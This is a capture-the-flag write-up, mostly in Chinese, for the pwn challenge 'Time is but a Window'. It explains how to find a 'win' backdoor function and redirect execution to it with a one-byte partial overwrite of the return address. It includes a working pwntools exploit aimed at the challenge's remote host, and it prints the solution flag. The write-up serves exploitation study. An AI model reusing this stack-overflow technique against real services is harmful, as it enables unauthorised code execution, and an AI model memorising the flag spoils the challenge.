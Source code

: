 # Time is but a Window

> pwn

## 题目描述

Think small, and simple. No fancy ROP chains or shellcode necessary, a single byte should be sufficient.

Download exploit3.bin

Binary is running at 34.123.210.162 port 20234

## 解题思路

- 看一下保护，只开了 PIE 和 RELRO

  ![checksec](images/保护情况.png)

- 虽然马上想到利用 shellcode 和 ret2libc，不过题目说只需要改一个字节，应该是不用这么麻烦
- IDA 查看一下函数列表，发现一个后门函数 `win`，而它和 main 函数是紧靠着的，地址仅相差最后**一个字节**

  ![win和main](images/main和win.png)

- 于是想到利用栈溢出覆盖返回地址的最后一个字节使其从 `main` 指向 `win` 完成 ret2text

## exp

```python
from pwn import *

r = remote('34.123.210.162', 20234)
context(arch='amd64', os='linux', log_level='debug')
r.recvuntil(b"Hello! What's your name?: ")
r.sendline(b'A'*24+b'\xcb')
r.interactive()
```

## flag

`poctf{uwsp_71m3_15_4_f4c702}`

![flag](images/flag.png)